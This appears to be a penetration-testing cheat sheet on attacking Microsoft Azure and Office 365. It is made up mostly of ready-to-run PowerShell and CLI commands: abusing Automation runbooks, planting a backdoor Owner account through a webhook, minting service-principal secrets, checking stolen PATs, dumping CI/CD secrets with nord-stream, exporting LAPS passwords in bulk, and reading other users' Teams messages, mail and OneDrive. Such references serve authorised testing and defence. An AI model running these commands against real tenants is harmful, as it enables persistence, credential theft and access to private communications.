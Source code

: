 # Azure Services

## Azure Runbook

Runbook must be **SAVED** and **PUBLISHED** before running it.

### Create a Runbook

* Check user right for automation
    ```powershell
    az extension add --upgrade -n automation
    az automation account list # if it doesn't return anything the user is not a part of an Automation group
    az ad signed-in-user list-owned-objects
    ```
* Add the user to the "Automation" group: `Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose`
* Get the role of a user on the Automation account: `Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>`. NOTE: Contributor or higher privileges accounts can create and execute Runbooks
* List hybrid workers: `Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>`
* Create a Powershell Runbook: `Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose`
* Publish the Runbook: `Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose`
* Start the Runbook: `Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose`


### Persistence via Automation accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook https://github.com/NetSPI/MicroBurst
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Trigger the webhook with a post request to create the new user

    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```


## Azure Service Principal

* Generate a new service principal password/secret
    ```ps1
    Import-Module Microsoft.Graph.Applications
    Connect-MgGraph 
    $servicePrincipalId = "<service-principal-id>"

    $params = @{
        passwordCredential = @{
            displayName = "NewCreds"
        }
    }
    Add-MgServicePrincipalPassword -ServicePrincipalId $servicePrincipalId -BodyParameter $params
    ```


## Azure Devops

* Verify the validity of an Azure Personal Access Token (PAT)
    ```ps1
    PAT=""
    organization=""
    curl -u :${PAT} https://dev.azure.com/${organization}/_apis/build-release/builds
    ```

* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - Nord Stream is a tool that allows you to extract secrets stored inside CI/CD environments by deploying malicious pipelines. It currently supports Azure DevOps, GitHub and GitLab.
    ```ps1
    # List all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg --list-secrets

    # Dump all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg
    ```


## Microsoft Intune

* LAPS
    ```ps1
    #requires -modules Microsoft.Graph.Authentication
    #requires -modules Microsoft.Graph.Intune
    #requires -modules LAPS
    #requires -modules ImportExcel

    $DaysBack = 30
    Connect-MgGraph
    Get-IntuneManagedDevice -Filter "Platform eq 'Windows'" |
        Foreach-Object {Get-LapsAADPassword -DevicesIds $_.DisplayName} |
            Where-Object {$_.PasswordExpirationTime -lt (Get-Date).AddDays(-$DaysBack)} |
                Export-Excel -Path "c:\temp\lapsdata.xlsx" - ClearSheet -AutoSize -Show
    ```


## Office 365

### Microsoft Teams Messages

```ps1
TokenTacticsV2> RefreshTo-MSTeamsToken -domain domain.local
AADInternals> Get-AADIntTeamsMessages -AccessToken $MSTeamsToken.access_token | Format-Table id,content,deletiontime,*type*,DisplayName
```


### Outlook Mails

* Read user mails
    ```ps1
    Get-MgUserMessage -UserId <user-id> | ft
    Get-MgUserMessageContent -OutFile mail.txt -UserId <user-id> -MessageId <message-id>
    ```

### OneDrive Files

```ps1
$userId = "<user-id>"
Import-Module Microsoft.Graph.Files
Get-MgUserDefaultDrive -UserId $userId
Get-MgUserDrive -UserId $UserId  -Debug
Get-MgDrive -top 1
```


## References

* [Microsoft Graph - servicePrincipal: addPassword](https://learn.microsoft.com/en-us/graph/api/serviceprincipal-addpassword?view=graph-rest-1.0&tabs=powershell)
* [Microsoft Intune - Microsoft Intune support for Windows LAPS](https://learn.microsoft.com/en-us/mem/intune/protect/windows-laps-overview)
* [Pentesting Azure Mindmap - Alexis Danizan](https://github.com/synacktiv/Mindmaps)